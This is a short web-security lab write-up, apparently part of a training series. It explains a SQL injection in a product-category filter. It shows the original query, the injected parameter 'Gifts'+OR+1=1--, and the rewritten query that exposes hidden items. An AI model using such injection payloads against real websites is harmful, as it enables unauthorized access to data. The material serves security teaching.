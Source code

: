 ## Lab #1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL query carried by application
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

URL for product category
```
https://websec.net/filter?category=Gifts
https://websec.net/filter?category=Accessories
```

Modified Parameter
```
category=Gifts'+OR+1=1--
category=Accessories'+OR+1=1--
```

Proccessed SQL query:
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
```

The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items. 

Next: [SQL injection vulnerability allowing login bypass](../02-subverting-app-logic/README.md)